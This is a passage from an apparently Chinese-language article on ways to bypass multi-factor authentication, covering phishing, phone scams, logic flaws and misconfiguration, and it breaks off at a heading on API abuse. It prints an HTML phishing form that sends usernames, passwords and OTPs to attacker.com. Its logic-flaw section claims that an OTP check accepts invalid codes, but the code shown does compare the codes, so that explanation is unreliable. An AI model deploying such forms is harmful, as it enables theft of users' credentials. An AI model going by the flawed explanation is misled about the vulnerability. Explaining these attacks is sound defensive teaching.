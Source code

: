 #### 4.3.1 钓鱼攻击

钓鱼攻击是一种通过伪造的登录页面或短信验证码获取用户MFA信息的手段。以下是一个简单的钓鱼攻击示例：

```html
<form action="http://attacker.com/steal" method="POST">
  <input type="text" name="username" placeholder="Username">
  <input type="password" name="password" placeholder="Password">
  <input type="text" name="otp" placeholder="OTP">
  <input type="submit" value="Login">
</form>
```

攻击者将上述表单注入到伪造的登录页面中，当用户输入用户名、密码和OTP时，表单会将信息发送到攻击者的服务器。

#### 4.3.2 电话诈骗

电话诈骗是一种通过电话冒充客服人员，诱导用户提供MFA信息的手段。攻击者通常会冒充银行、电商平台等客服人员，通过电话诱导用户提供MFA信息。

### 4.4 漏洞利用的技术细节

漏洞利用的核心在于利用MFA实现中的漏洞直接绕过认证步骤。以下是几种常见的漏洞利用技术细节：

#### 4.4.1 逻辑缺陷

逻辑缺陷是一种通过利用MFA实现中的逻辑缺陷绕过认证步骤的手段。以下是一个简单的逻辑缺陷示例：

```python
def verify_otp(user, otp):
    if otp == user.otp:
        return True
    else:
        return False

def login(user, password, otp):
    if verify_password(user, password):
        if verify_otp(user, otp):
            return True
    return False
```

在上述代码中，`verify_otp`函数没有对OTP的有效性进行验证，攻击者可以通过提交无效的OTP绕过MFA。

#### 4.4.2 配置错误

配置错误是一种通过利用MFA实现中的配置错误绕过认证步骤的手段。以下是一个简单的配置错误示例：

```yaml
mfa:
  enabled: true
  required: false
```

在上述配置中，MFA虽然启用，但并未设置为必选项，攻击者可以通过不进行MFA验证绕过认证步骤。

#### 4.4.3 API滥用
